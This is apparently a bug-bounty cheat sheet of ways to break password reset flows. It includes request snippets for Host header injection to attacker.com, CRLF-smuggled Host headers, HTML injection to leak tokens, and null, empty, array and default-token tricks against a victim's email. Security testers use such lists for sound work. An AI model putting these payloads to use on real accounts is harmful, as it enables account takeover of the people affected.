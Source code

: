 ## a lot of ideas in this article  by **omer hesham**
```
https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5
```

## Use Your Token on Victims Email
```
POST /reset
...
...
email=victim@gmail.com&token=$YOUR-TOKEN$

```

## Host Header Injection
```
POST /reset
Host: attacker.com
...
email=victim@gmail.com
```

## HTML injection in Host Header
```
POST /reset
Host: attacker">.com
...
email=victim@gmail.com
```

## Leakage of Password reset in Referer Header
```
Referrer: https://website.com/reset?token=1234
```

## Using Companies Email

```
While inviting users into your account/organization, you can also try inviting company emails and add a 
new field "password": "example123". or "pass": "example123" in the request. you may end up resetting a
user password

Company emails can be found on target's GitHub Repos members or you can check on http://hunter.io. some users
have a feature to set a password for invited emails, so here we can try adding a pass parameter.

If successful, we can use those credentials to login into the account, SSO integrations, support panels,
etc #BugBountyTips
```

## CRLF in URL
```
with CLRF: /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

## HTML injection in Email
```
HTML injection in email via parameters, cookie, etc > inject image > leak the  token
```

## Remove token
```
http://example.com/reset?eamil=victims@gmail.com&token=
```

## Change it to Developer's Token - 0000
```
http://example.com/reset?eamil=victims@gmail.com&token=0000000000
```

## Use Null Value
```
http://example.com/reset?eamil=victims@gmail.com&token=Null/nil
```

## Try an array of old tokens
```
http://example.com/reset?eamil=victims@gmail.com&token=[oldtoken1,oldtoken2]
```

## SQLi bypass
```
try sqli bypass and wildcard or, %, *
```

## Request Method / Content Type
```
change request method (get, put, post etc) and/or content type (xml<>json) 
```

## Response Manipulation
```
Replace bad response and replace with good one
```

## Massive Token
```
http://example.com/reset?eamil=victims@gmail.com&token=1000000 long string
```

## Crossdomain Token Usage
```
If a program has multiple domains using same underlying reset mechanism, reset token generated from one domain sometime 
works in another domain too.
```
## Leaking Reset Token in Response Body                                                                                                                   
## change 1 char at the begin/end to see if the token is evaluated                                                                                         
## use unicode char jutzu to spoof email address                                                                                                           
## look for race conditions                                                                                                                               
## try to register the same mail with different TLD (.eu,.net etc)                                                                                        
